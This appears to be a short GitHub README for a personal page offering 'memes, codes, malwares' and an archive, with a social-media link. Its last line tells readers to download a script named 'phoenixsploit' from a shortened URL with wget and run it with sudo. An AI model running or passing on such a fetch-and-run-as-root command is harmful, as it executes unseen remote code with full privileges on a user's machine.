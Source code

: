 # phoenixthrush.github.io
Just memes, codes, malwares, an archive and lots more lol!

Follow me if u wanna get a&nbsp;<a href="https://instagram.com/phoenixthrush">:cookie: &nbsp;</a>lmao

<br>

NEW UPDATE!
DOES NOT FUNCTION PROPERLY

wget https://bit.ly/phoenixsploit phoenix.sh && sudo chmod +x phoenix.sh && sudo ./phoenix.sh
